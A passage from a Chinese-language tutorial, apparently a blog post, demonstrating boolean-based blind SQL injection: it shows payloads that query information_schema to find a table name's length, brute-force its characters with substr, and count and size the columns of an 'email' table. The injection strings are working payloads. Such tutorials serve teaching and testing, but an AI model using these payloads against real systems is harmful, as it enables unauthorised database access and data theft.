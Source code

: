 问号处替换为从一开始的数字。我们可以看到，数量为 7。

![](http://upload-images.jianshu.io/upload_images/118142-eaf16f9dc4f7a32a.jpg)

## 查询表名

我们这里演示如何查询第一个表的表名。

首先查询表名长度。

```
1 and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=?
```

问号处换成从 1 开始的整数。长度为 5：

![](http://upload-images.jianshu.io/upload_images/118142-6bc29940612a9a8e.jpg)

之后，再爆破每个字符。

```
1 and (select substr(table_name,$1,1) from information_schema.tables where table_schema=database() limit 0,1)=$2
```

`$1`配置为 1 ~ 5的整数，`$2`的配置为上面的列表。

![](http://upload-images.jianshu.io/upload_images/118142-edd202af6a30957b.jpg)

查表可得，结果为`email`。

## 查询列数量

我们下面演示查询`email`表的列数。

```
1 and (select count(column_name) from information_schema.columns where table_name='email')=?
```

问号处替换为从一开始的数字。我们可以看到，数量 2。

![](http://upload-images.jianshu.io/upload_images/118142-835d83b4df9b7e5d.jpg)

## 查询列名称

作为演示，我这里查询第二列（`limit 1,1`）的名称。

首先需要查询其长度：

```
1 and (select length(column_name) from information_schema.columns where table_name='email' limit 1,1)=?
```

问号处换成从 1 开始的整数。长度为 5：
